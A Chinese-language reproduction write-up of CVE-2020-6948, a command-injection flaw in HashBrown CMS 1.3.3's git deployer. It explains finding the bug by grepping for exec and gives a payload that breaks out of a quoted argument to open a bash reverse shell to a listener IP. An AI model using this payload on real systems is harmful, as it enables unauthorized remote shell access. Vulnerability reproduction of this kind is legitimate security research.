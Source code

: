 # CVE-2020-6948 HashBrown CMS 远程命令执行漏洞

### 一、漏洞简介

HashBrown CMS是一套开源的无头内容管理系统（CMS）。 HashBrown CMS 1.3.3及之前版本中存在远程代码执行漏洞，该漏洞源于程序没有进行正确的安全检查。攻击者可利用该漏洞执行代码。

### 二、漏洞影响

HashBrown CMS 1.3.3

### 三、复现过程

在之前收集的资料里面总结了发现漏洞基本有三个方法：

* 通过关键字搜索，比如exec方法在很多语言里面代表执行系统命令，那你就可以搜索查看传入exec方法的参数有没有经过过滤，有没有办法利用。https://github.com/wireghoul/graudit 这个项目就罗列了很多语言的关键词可以用作参考。
* 根据function来阅读代码，但是这种方法花费的时间比第一种多，有可能迷失在各种各种各样的方法中。
* 通读代码，这样最全，但是显然速度要慢很多了。

对于Hashbrown CMS，先用第一种方法开路。尝试了几个关键字之后我选取了exec这个关键字。在grep 之后发现了下面的结果。

![](images/15890702131528.png)


看来这个应用使用git 相关命令，如果可以传入url 参数就有可能触发命令执行漏洞。接着打开Server/Entity/Deployer/GitDeployer.js 文件查看源代码。

![](images/15890702213739.png)


其中可以看到url由username，password，和repro 几个变量拼接，而且其中没有过滤特殊的字符和命令。那接下来就是到页面里面寻找触发的点。经过对这个应用的一番熟悉，得知可以在登录后建立新的connection选择git部署的方式，在Repository，Branch，username或者password字段填写你要执行的命令即可。但是这里要注意程序本来的exec命令中填写有单引号，我们要对其进行闭合，比如填入如下命令来反弹一个shell。


```
https://google.com' & /bin/bash -c 'bash -i >& /dev/tcp/192.168.119.149/8888 0>&1
```

配置如下：

![](images/15890702384326.png)


然后点击media菜单触发git命令执行

![](images/15890702454086.png)


接下来在监听的机器上就可以获得shell了

![](images/15890702528280.png)


**参考链接**

https://mp.weixin.qq.com/s?__biz=MjM5MDYxODkyMA==&mid=2651345793&idx=1&sn=02381bb3dbd4679b12be4628d665e815&chksm=bdbef7c68ac97ed063e8df46a42e2a111dfd52f108f6b267f8dfc183b6b0ed3f87b6af757487&mpshare=1&scene=1&srcid=&sharer_sharetime=1582514363054&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=019d47c25aa835ac2d58a398c473737e01644761ca991f7009ada9eb1ef69e4dd41b2008c27db720006e0858455f920d0801d9feae53aa4314f05d6e310a7290ae2b93e17343c13f6a9f2ce360254195&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AZc%2BxZJwp8CueCtaKThWQrI%3D&pass_ticket=l4uNHDrGwGqrS%2BmJVv56i4FzemghweUeBbN1BEETCGd3TqEDSTcwvRMSxogubM8j